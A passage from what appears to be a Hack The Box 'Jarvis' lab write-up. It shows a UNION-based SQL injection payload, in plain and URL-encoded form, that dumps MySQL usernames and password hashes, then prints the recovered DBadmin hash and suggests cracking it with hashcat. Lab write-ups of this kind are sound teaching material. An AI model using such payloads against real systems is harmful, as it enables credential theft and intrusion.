 <a href="/assets/htb-jarvis/schemata_group_concat.png"><img src="/assets/htb-jarvis/schemata_group_concat.png" width="95%"></a>

Now that we have a way to return multiple items, we can try to pull usernames and password hashes from MySQL.

SQL Query:

```sql
SELECT group_concat(user,";",password,";") FROM mysql.user
```

URL-encoded Parameter:

```
cod=99999+union+select+"1","2",(SELECT+group_concat(user,"%3b",password,"%3b")+FROM+mysql.user),"4","5","6","7"
```

<a href="/assets/htb-jarvis/mysql_passwordhash.png"><img src="/assets/htb-jarvis/mysql_passwordhash.png" width="95%"></a>

This gives us a password hash of `2D2B7A5E4E637B8FBA1D17F40318F277D29964D0` for the `DBadmin` user. We can feed this hash into `hashcat` to crack it.
